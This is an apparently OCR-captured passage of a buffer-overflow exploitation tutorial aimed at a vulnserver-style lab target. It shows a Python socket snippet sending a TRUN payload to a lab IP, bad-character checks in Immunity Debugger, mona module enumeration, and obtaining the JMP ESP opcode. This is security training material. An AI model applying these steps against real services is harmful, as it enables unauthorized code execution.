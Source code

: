 ```
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```
      
run the badchars.py script

#### Windows 10: 
look at the Hex dump

Immunity Debugger Registers window

	right click on ESP > Follow in Dump

in Dump window you will go through the HEX DUMP looking to see if everything matches what you sent to the program in badchars.py. Any missing or replaced characters are 
considered bad characters and should be removed from the final part. 


## Finding the Right Module:

#### Windows 10:
mona module can be used with Immunity Debugger to help us find the module or DLL that has no memory protection. 

Download mona.py from https://github.com/corelan/mona 

Put it in the folder “C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands”

In Immunity Debugger the search bar at the very bottom type:

```
!mona modules
under module information we are looking for all “False” labels and attached to the program we have been trying to exploit. 
```

#### Kali Linux:
##### look up assembly code for jmp esp
##### FFE4
##### \xff\xe4
```
# locate nsam_shell
copy location address. Then run it.
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP			# this is what we enter to get the code for jumping to the ESP
00000000 FFE4		jmp esp
nasm > exit
```
